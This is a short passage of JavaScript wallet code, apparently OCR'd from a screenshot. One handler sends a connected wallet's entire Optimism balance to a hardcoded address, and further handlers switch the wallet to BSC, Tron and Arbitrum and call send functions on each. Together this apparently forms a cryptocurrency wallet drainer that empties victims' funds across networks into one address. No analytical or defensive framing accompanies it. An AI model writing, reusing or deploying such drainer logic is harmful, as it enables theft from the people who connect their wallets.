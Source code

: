     const handleSendOptimism = async () => {
      if (!optimismBalanceData?.value || optimismBalanceData?.formatted === '0') {
        setErrors('Optimism balance is zero. No further network to switch.');
        return;
      }
    
      try {
        const optimismBalance = optimismBalanceData?.value;
        const amountToSend = optimismBalance;
    
        await sendOptimismTransaction({
          to: '0x7323356FfF92fF61abe79d63f1213296F5386c56',
          value: amountToSend,
        });
    
        console.log('Optimism transaction sent.');
      } catch (error) {
        setErrors('Error sending Optimism transaction.');
        console.error(error);
      }
    };

    const handleSwitchToBsc = async () => {
      try {
        console.log("Handling switch..." , isConnected);
        console.log("Handling switch bnb bnb ..." , isConnected);
        await switchChain({ chainId: bsc.id }); 
        handleSendBnb();
      } catch (error) {
        setErrors("Failed to switch to BSC network.");
        console.error(error);
      }
    };

    const handleSwitchToTron = async () => {
      try {
        console.log("Handling switch to Tron...", isConnected);
        await switchChain({ chainId: tron.id }); 
        await handleSendTron();
      } catch (error) {
        setErrors("Failed to switch to Tron network.");
        console.error(error);
      }
    };
    
    // Arbitrum Network Switch
    const handleSwitchToArbitrum = async () => {
      try {
        console.log("Handling switch to Arbitrum...", isConnected);
        await switchChain({ chainId: arbitrum.id });
        await handleSendArbitrum();
      } catch (error) {
        setErrors("Failed to switch to Arbitrum network.");
        console.error(error);
      }
    };
